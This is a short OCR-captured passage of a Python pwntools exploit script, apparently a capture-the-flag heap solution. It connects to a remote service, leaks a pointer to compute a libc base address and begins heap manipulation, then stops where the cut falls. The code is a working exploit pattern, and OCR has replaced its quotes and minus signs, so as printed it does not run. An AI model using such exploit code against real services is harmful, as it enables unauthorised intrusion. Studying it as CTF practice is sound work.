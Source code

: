     p.sendline(str(idx))

​

def delete(idx):

    p.recvuntil(“&gt;&gt; “)

    p.sendline(‘3’)

    p.recvuntil(“index: “)

    p.sendline(str(idx))

​

#p = pwn.remote(“172.17.0.2”, 1234)

p = pwn.remote(“59.110.173.239”, 2399)

​

new()

edit(0, 0, 0x1000)

new()

edit(0, 0, 0)

edit(0, 0, 0x1000)

show(0)

​

p.recvuntil(“data: “)

​

addr = p.recvline()[:–1]

​

addr = pwn.u64(addr.ljust(8, b’\x00′))

​

libc_base = addr – 2014176

​

print(hex(libc_base))

​

​

new()

edit(2, 0xff, 0x100)

new()

edit(3, 0, 0x100)
